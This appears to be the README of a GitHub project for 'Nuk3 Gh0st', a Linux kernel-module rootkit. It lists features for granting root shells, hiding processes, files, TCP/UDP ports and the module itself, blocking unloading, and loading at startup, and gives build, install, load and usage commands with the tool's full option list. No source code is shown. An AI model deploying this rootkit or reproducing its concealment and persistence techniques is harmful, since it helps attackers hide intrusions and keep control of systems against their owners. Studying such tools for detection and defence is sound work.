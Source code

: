 <img src="https://github.com/JuanSchallibaum/Nuk3Gh0st/blob/master/logo.jpg" width="300" height="300" />

# Nuk3 Gh0st

Universal Linux LKM rootkit, designed to work in any kernel version and both architectures (x86 and x64).

## Who Nuk3 Gh0st?

-Is the most stable Linux LKM rootkit, working in any kernel version from 2.6.32 to 4.17.9
-Can hide ports TCP and UDP of IPv4 and even IPv6.
-Easy to build and compiles withouth any warning.
-Contains special functionality: can enable rootkit on startup!

## Functionality

The rootkit can do the following:

- Grant root privileges to a userland process
- Hide process by PID
- Unhide a previously hidden process by PID
- Hide files or directories by their name
- Unhide previously hidden files or directories
- Hide TCP ports (for IPv4 and IPv6)
- Unhide previously hidden TCP ports
- Hide UDP ports (for IPv4 and IPv6)
- Unhide previously hidden UDP ports
- Hide itself
- Unhide itself
- Protect against being unloaded by the user
- Disable the unload protection

## Tested On

|           Distro            |          Kernel         |    Arch    |
|-----------------------------|-------------------------|------------|
| Kali Linux (Rolling)        |  4.17.9                 |   x86_64   |
| Kali Linux (Rolling)        |  4.16.18                |   x86_64   |
| Kali Linux (Rolling)        |  4.14.0-kali3-amd64     |   x86_64   |
| Ubuntu 16.04.4 LTS          |  4.13.0-36-generic      |   x86_64   |
| Fedora 26                   |  4.11.8-300.fc26        |   x86_64   |
| Ubuntu 17.04                |  4.10.0-19-generic      |   x86_64   |
| Debian 9                    |  4.9.0-7-686            |   i686     |
| Kali Linux (Rolling)        |  4.4.142                |   x86_64   |
| Kali Linux (Rolling)        |  3.16.57                |   x86_64   |
| Linux Mint 17               |  3.13.0-37-generic      |   x86_64   |
| Wifislax                    |  3.12.36                |   i686     |
| Fedora 19                   |  3.9.5-301.fc19         |   x86_64   |
| Ubuntu 12.10                |  3.5.0-17-generic       |   i686     |
| Lihuen 5.10 (Debian based)  |  3.2.0-4-amd64          |   x86_64   |
| Ubuntu 10.04.4 LTS          |  2.6.32-38-generic-pae  |   i686     |

In Wifislax x86 with 3.12.36, doesn't work file hidding functionality, but pid and port hidding works well.

## Pre requirements

Install a compiler, Linux headers and all other things required for us to build the rootkit:

#### On Debian based:
```sh
apt-get update
apt-get install kernel-headers-$(uname -r)
apt-get install build-essential
```

#### On Red Hat based:
```sh
yum update
yum install kernel-headers-$(uname -r)
yum install build-essential
```

## Install
```sh
make
make install
```

## Use

Load rootkit:

```sh
load-nuk3gh0st
```

Use rootkit:

```sh
nuk3gh0st --help


   $$    $$            $$         $$$$$$        
   $$$   $$            $$     $$ $$    $$       
   $$$$  $$  $$    $$  $$    $$        $$       
   $$ $$ $$  $$    $$  $$   $$     $$$$$        
   $$  $$$$  $$    $$  $$$$$$         $$        
   $$   $$$  $$    $$  $$   $$   $$    $$       
   $$    $$   $$$$$$   $$    $$   $$$$$$        

    $$$$$$  $$        $$$$$$             $$     
   $$    $$ $$       $$$   $$            $$     
   $$       $$$$$$$  $$$$  $$  $$$$$$$ $$$$$$   
   $$  $$$$ $$    $$ $$ $$ $$ $$         $$     
   $$    $$ $$    $$ $$  $$$$  $$$$$$    $$     
   $$    $$ $$    $$ $$   $$$       $$   $$ $$  
    $$$$$$  $$    $$  $$$$$$  $$$$$$$    $$$$   

                   By Juan Schällibaum          

   Usage: nuk3gh0st [OPTION]...

   Options:
     --root-shell                 Grants you root shell access.
     --hide-pid=PID               Hides the specified PID.
     --unhide-pid=PID             Unhides the specified PID.
     --hide-file=FILENAME         Hides the specified FILENAME globally.
                                  Must be a filename without any path.
     --unhide-file=FILENAME       Unhides the specified FILENAME.
     --hide-tcp-port=PORT         Hides the specified tcp PORT.
     --unhide-tcp-port=PORT       Unhides the specified tcp PORT.
     --hide-tcp6-port=PORT        Hides the specified tcp6 PORT.
     --unhide-tcp6-port=PORT      Unhides the specified tcp6 PORT.
     --hide-udp-port=PORT         Hides the specified udp PORT.
     --unhide-udp-port=PORT       Unhides the specified udp PORT.
     --hide-udp6-port=PORT        Hides the specified udp6 PORT.
     --unhide-udp6-port=PORT      Unhides the specified udp6 PORT.
     --hide                       Hides the rootkit LKM.
     --unhide                     Unhides the rootkit LKM.
     --help                       Print this help message.
     --protect                    Protects the rootkit from rmmod.
     --unprotect                  Disables the rmmod protection.
```

Unload rootkit:

```sh
unload-nuk3gh0st
```

## Special functionality

Enabling rootkit at system startup:

```sh
startup-nuk3gh0st
```

Disabling rootkit at system startup:

```sh
rmstartup-nuk3gh0st
```

## Uninstall
```sh
make uninstall
```

## License
This project is licensed under [GPLv2](LICENSE).
